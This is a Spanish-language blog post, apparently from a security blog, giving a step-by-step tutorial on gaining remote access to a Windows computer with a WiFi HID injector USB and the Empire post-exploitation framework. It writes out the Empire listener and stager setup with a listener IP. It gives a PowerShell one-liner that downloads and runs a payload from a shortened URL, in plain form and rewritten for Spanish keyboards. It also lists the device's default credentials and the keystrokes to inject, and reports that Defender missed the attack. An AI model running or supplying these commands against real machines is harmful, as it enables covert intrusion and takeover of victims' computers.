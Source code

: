 ```yaml
---
title: "Hacking con WiFi HID Injector y Empire"
author: Adan Alvarez
classes: wide
excerpt: "En esta entrada vamos a explicar como usar de forma simple un USB WiFi HID Injector para obtener acceso a un equipo. Para esto nos ayudaremos del framework de post-explotacion Empire."
categories:
  - Herramientas
tags:
  - C2
  - Pentest
  - Red Team
---
```

En esta entrada vamos a explicar como usar de forma simple un USB WiFi HID Injector para obtener acceso a un equipo. Para esto nos ayudaremos del framework de post-explotacion [Empire](https://github.com/EmpireProject/Empire).
{: style="text-align: justify;"}

En primer lugar, ¿qué es un USB WiFi HID Injector? y ¿Dónde lo conseguimos?
{: style="text-align: justify;"}

Un USB WiFi HID Injector es un USB que consta principalmente de un [Atmega32u4](https://www.microchip.com/wwwproducts/en/ATmega32U4) y un módulo [ESP-12-F](https://www.vispo.org/2015/07/19/introduccion-al-modulo-soc-wifi-esp8266-esp-12/) para añadir capacidad Wifi. Este USB al conectarse a un equipo es reconocido como un teclado y un raton. Por lo tanto, permite a un atacante conectarse vía WiFi a este y pulsar teclas o mover el ratón.
{: style="text-align: justify;"}

Este proyecto fue presentado en el [Black Hat arsenal 2017](https://www.blackhat.com/us-17/arsenal-overview.html) y está documentado en el [GitHub](https://github.com/whid-injector/WHID) del diseñador, donde podemos encontrar dónde adquirirlo.
{: style="text-align: justify;"}

En nuestro caso lo compramos en [Aliexpress](https://es.aliexpress.com/item/Cactus-Micro-compatible-board-plus-WIFI-chip-esp8266-for-atmega32u4/32318391529.html).
{: style="text-align: justify;"}

[![USB Wifi HID injector](https://donttouchmynet.github.io/assets/images/old/IMG_20180113_191809-300x225.jpg)](https://donttouchmynet.github.io/assets/images/old/IMG_20180113_191809.jpg) [![USB Wifi HID injector](https://donttouchmynet.github.io/assets/images/old/IMG_20180114_141443-300x225.jpg)](https://donttouchmynet.github.io/assets/images/old/IMG_20180114_141443.jpg)

Tal y como se indica en el GitHub estos USB ya llevan precargado ESPloitV2 por lo que podemos conectarlo y comenzar a jugar.
{: style="text-align: justify;"}

Configuración de Empire
-----------------------

Antes de poder seguir necesitaremos crear nuestro payload con Empire. En el siguiente [enlace](http://www.powershellempire.com/?page_id=110) encontraréis una pequeña guía rápida de Empire.
{: style="text-align: justify;"}

Primero de todo creamos nuestro listener:
{: style="text-align: justify;"}

```
uselistener http
```

[![Empire](https://donttouchmynet.github.io/assets/images/old/Empire1-300x150.png)](https://donttouchmynet.github.io/assets/images/old/Empire1.png)

Configuramos el puerto y la IP  en la que escuchará Empire:
{: style="text-align: justify;"}

```
set Host http://198.51.100.2:8081
set Port 8081
```

[![Empire](https://donttouchmynet.github.io/assets/images/old/Empire2-300x166.png)](https://donttouchmynet.github.io/assets/images/old/Empire2.png)

Después de esto generamos nuestro payload:
{: style="text-align: justify;"}

```
back
usestager windows/ducky
set Listener http
execute
```

[![Empire](https://donttouchmynet.github.io/assets/images/old/Empire4-300x143.png)](https://donttouchmynet.github.io/assets/images/old/Empire4.png)

Del payload obtenido la última línea será la que utilizaremos en nuestro ataque.
{: style="text-align: justify;"}

Preparando el payload
---------------------

Podríamos injectar el payload obtenido directamente a través del USB, pero tras varias pruebas realizadas el funcionamiento no es el correcto cuando la cadena de texto es tan larga.
{: style="text-align: justify;"}

Por lo tanto, utilizaremos gist.github.com para guardar allí nuestro payload  y en el ordenador de la víctima llamaremos a Powershell para que lo descargue mediante un acortador de Google
{: style="text-align: justify;"}

```
powershell -w 1 -nop -noni -c «IEX (New-Object Net.Webclient).downloadstring('https://goo.gl/XXXXX')»
```
Por lo tanto, primero generamos nuestro gist.github.com con el payload:
{: style="text-align: justify;"}

[![Gist](https://donttouchmynet.github.io/assets/images/old/gist-300x83.png)](https://donttouchmynet.github.io/assets/images/old/gist.png)

y generamos un link [acortado de google](https://goo.gl/) a nuestro gist en modo raw:

[![google](https://donttouchmynet.github.io/assets/images/old/2018-02-17_10-35-27-300x117.png)](https://donttouchmynet.github.io/assets/images/old/2018-02-17_10-35-27.png)

Con esto podríamos ejecutar la línea mencionada anteriormente en una consola powershell y tendríamos acceso al ordenador de la víctima. El problema que nos encontraremos al escribir la línea mediante el USB es el teclado español. El USB está configurado para pulsar las teclas como si el teclado destino fuera inglés. Por lo tanto, si realizamos un ataque a un equipo con teclado español deberemos cambiar los caracteres especiales. Para nuestra línea los cambios serían los siguientes:
{: style="text-align: justify;"}

Substituimos - por /
Substituimos " por @
Substituimos ( por  *
Substituimos ' por -
Substituimos : por >
Substituimos / por &
Substituimos ) por (

Quedando por lo tanto la siguiente línea:
{: style="text-align: justify;"}
```
powershell /w 1 /nop /noni /c @IEX *New-Object Net.Webclient(.downloadstring*-https>&&goo.gl&XXXX-(@
```
Donde XXXX es el link acortado de Google.

Con esto ya podemos ejecutar nuestro ataque.

Cargar el payload con el USB Wifi HID injector
----------------------------------------------

Al conectar el USB a un ordenador, este creará un punto de acceso con SSID «Exploit» al que nos podremos conectar con la contraseña: DotAgency
{: style="text-align: justify;"}

Una vez conectados, en este caso con un móvil, accedemos con un navegador a http://192.168.1.1 y con los datos:

User: admin

Password: hacktheplanet

[![ESPloit](https://donttouchmynet.github.io/assets/images/old/Screenshot_20180217-103631-169x300.png)](https://donttouchmynet.github.io/assets/images/old/Screenshot_20180217-103631.png)

En este menú principal hacemos clic en Input Mode y nos llevará a una pantalla donde podremos gestionar el ratón y el teclado.
{: style="text-align: justify;"}

[![ESPloit](https://donttouchmynet.github.io/assets/images/old/Screenshot_20180217-103716-169x300.png)](https://donttouchmynet.github.io/assets/images/old/Screenshot_20180217-103716.png)

En esta lanzaremos nuestro ataque de forma sencilla.
{: style="text-align: justify;"}

Pulsamos sobre el botón GUI+r

escribiremos:
```
PrintLine: powershell
```
y haremos clic en Send Text+Enter

Después de esto escribiremos:
```
PrintLine: powershell /w 1 /nop /noni /c @IEX *New-Object Net.Webclient(.downloadstring*-https>&&goo.gl&XXXX-(@
```
[![](https://donttouchmynet.github.io/assets/images/old/2018-02-17_18-34-49-300x131.png)](https://donttouchmynet.github.io/assets/images/old/2018-02-17_18-34-49.png)

y haremos clic de nuevo en Send Text+Enter

Tras esto podemos volver a nuestra máquina con Empire y verificar que tenemos un nuevo agente !

[![Empire](https://donttouchmynet.github.io/assets/images/old/2018-02-17_16-47-33-300x54.png)](https://donttouchmynet.github.io/assets/images/old/2018-02-17_16-47-33.png)

En nuestro caso realizamos el ataque en una máquina Windows 10 actualizada y con defender activo.  Defender no detectó el ataque en ningún momento.

En próximos post detallaremos más funcionalidades del USB y métodos de defensa.